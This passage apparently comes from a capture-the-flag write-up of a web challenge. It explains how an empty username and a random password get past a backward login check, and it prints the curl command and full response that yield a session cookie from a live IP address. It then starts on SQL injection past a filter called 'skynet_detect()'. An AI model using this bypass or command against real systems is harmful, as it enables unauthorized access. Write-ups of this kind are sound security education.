 
This `query_kill_time()` function is only called if we have a valid `SessionId` cookie, something we can only get by logging in. Therefore, we need to somehow log in before we can do any sort of injection.

## Logging in
Upon closer inspection of the `query_login_attempt()` function we see that its login logic is sort of backward. It first queries for the password in the database, then checks if the username given by the user matches the username associated with the result of the query. 

If we send a random, invalid, password along with an empty username, the SQL query will return an empty username from the database. This empty username will match with our empty username and we will "log in". This provides us with a `SessionId` that we can use to start querying the `query_kill_time()` function.

The following curl command illustrates this:
```bash
curl -v -X POST http://47.242.21.212:8081/login \
    -F "username=" \
    -F "password=asdasdasd"
```
```bash
*   Trying 47.242.21.212:8081...
* Connected to 47.242.21.212 (47.242.21.212) port 8081 (#0)
> POST /login HTTP/1.1
> Host: 47.242.21.212:8081
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Length: 249
> Content-Type: multipart/form-data; boundary=------------------------52f42c0931fd21fe
>
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 302 FOUND
< Content-Type: text/html; charset=utf-8
< Content-Length: 13
# highlight-start
< Set-Cookie: SessionId=a706967504e8247d98ad7e583a11e002; Path=/
# highlight-end
< Location: http://47.242.21.212:8081/
< Server: Werkzeug/0.16.1 Python/3.8.10
< Date: Sat, 22 Jan 2022 21:18:43 GMT
<
* Closing connection 0
Login success
```

We can now use the `SessionId` cookie of `a706967504e8247d98ad7e583a11e002` in our future requests.

## SQL Injecting
Now that we have a `SessionId` cookie we can access the vulnerable SQL query. We can inject using the `name` key from the form data of a POST request. The problem is the `skynet_detect()` function seems to do some sort of injection filtering, blocking more obvious injections.
